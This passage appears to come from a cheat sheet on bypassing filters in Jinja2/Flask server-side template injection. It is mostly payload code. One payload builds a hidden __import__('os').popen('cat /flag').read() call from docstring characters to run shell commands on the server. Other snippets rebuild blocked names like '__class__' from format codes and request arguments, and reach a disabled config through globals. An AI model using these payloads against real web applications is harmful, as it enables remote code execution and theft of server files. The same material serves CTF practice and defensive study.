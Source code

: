 - The obtained characters can be concatenated by `~`
- For example, an eval payload

```python
{% set xhx = (({ }|select()|string|list()).pop(24)|string)%}
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set quote = ((app.__doc__|list()).pop(337)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set bu = dict(buil=x,tins=xx)|join %}
{% set im = dict(imp=x,ort=xx)|join %}
{% set sy = dict(po=x,pen=xx)|join %}
{% set oms = dict(o=x,s=xx)|join %}
{% set fl4g = dict(f=x,lag=xx)|join %}
{% set ca = dict(ca=x,t=xx)|join %}
{% set ev = dict(ev=x,al=xx)|join %}
{% set red = dict(re=x,ad=xx)|join%}
{% set bul = xhx*2~bu~xhx*2 %}
{% set payload = xhx*2~im~xhx*2~lb~quote~oms~quote~rb~pt~sy~lb~quote~ca~sp~slas~fl4g~quote~rb~pt~red~lb~rb %}
```

- Python3 Normalization of Unicode, resulting in exec being able to execute unicode code

<img src="https://pic.imgdb.cn/item/6139ce6f44eaada739f4aef2.png" alt="">

- Python's formatted string properties

```python
{{""['{0:c}'['format'](95)+'{0:c}'['format'](95)+'{0:c}'['format'](99)+'{0:c}'['format'](108)+'{0:c}'['format'](97)+'{0:c}'['format'](115)+'{0:c}'['format'](115)+'{0:c}'['format'](95)+'{0:c}'['format'](95)+'{0:c}'['format'](95)]}}
```

- getlist, use the `.getlist()` method to obtain a list, and the parameters of this list can be passed later

```python
{%print (request.args.getlist(request.args.l)|join)%}&l=a&a=_&a=_&a=class&a=_&a=_
```

### Object level disabled
- set {}=None, you can only set the object to None, and the object can also be found through other references

```python
{{% set config=None%}} -{{url_for.__globals__.current_app.config}}
```

- del

```python
del __builtins__.__dict__['__import__']
```
